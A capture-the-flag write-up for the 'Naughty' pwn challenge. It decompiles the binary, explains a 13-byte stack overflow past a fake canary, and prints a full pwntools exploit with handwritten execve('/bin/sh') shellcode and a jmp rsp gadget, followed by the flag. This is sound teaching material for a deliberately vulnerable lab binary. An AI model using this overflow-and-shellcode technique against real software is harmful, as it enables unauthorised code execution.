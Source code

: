 # Naughty

## Overview

We receive a file called `chall`. NX is disabled, which is helpful. We inject shellcode, [use a `jmp rsp` gadget](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode#using-rsp) and execute our own shellcode.

## Decompilation

`main()` is a fairly simple binary:

```c
int main(int a1, char **a2, char **a3)
{
  char input[46]; // [rsp+0h] [rbp-30h] BYREF
  __int16 check; // [rsp+2Eh] [rbp-2h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  
  check = -6913;
  puts("Tell Santa what you want for XMAS");
  fgets(input, 71, stdin);
  puts("Nice. Hope you haven't been naughty");
  if ( check != -6913 )
  {
    puts("Oh no....no gifts for you this year :((");
    exit(0);
  }
  return 0LL;
}
```

The buffer is `48` bytes long. After the buffer there is 16-bit integer `check`, which acts as a canary. Then there are 8 bytes for the stored RBP. The total input it `71`, meaning after the stored RBP we have 13 bytes of overflow, **including the RIP**. No ROP is possible.

Note that the value `-6913` is actually `0xe4ff`.

This was rather misleading as they gave you the LIBC.

## Exploitation

Firstly:

```python
from pwn import *

elf = context.binary = ELF('./chall', checksec=False)

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2000)
else:
    p = process()

jump_rsp = 0x40067f
```

Now we need some shellcode. pwntools' `shellcraft.sh()` is `2` bytes too long, so we'll have to make it manually.

The general payload is as follows:

* `/bin/sh\x00` so we have it in a known location \(relative to RSP\)
* Shellcode
* Padding
* `0xe4ff` to overwrite the pseudo-canary
* Padding
* `jmp rsp`

Now we need to decide _what_ shellcode we want to run. Well, since RSP points at the stack, we know that it will **always be a static offset off our buffer**. If we calculate it, we can just do

```text
sub rsp, x
jmp rsp
```

And execute the other half of our code! And at this point RSP will be exactly `8` bytes off `/bin/sh\x00`, so we can use it to populate RDI as well!

```python
exploit = b'/bin/sh\x00'
exploit += asm('''
    xor rsi, rsi
    xor rdx, rdx
    lea rdi, [rsp-8]
    mov rax, 0x3b
    syscall
''')    # rsi/rdx need to be null, rdi points at /bin/sh, rax execve syscall number
exploit += b'A' * (46 - len(exploit))    # padding
exploit += p16(0xe4ff)
exploit += b'B' * 8
exploit += p64(jump_rsp)
exploit += asm('''
    sub rsp, 0x38
    jmp rsp
''')    # RSP point to beginning of shellcode, use this to point RIP there
 
p.sendline(exploit)
p.interactive()
```

`X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}`

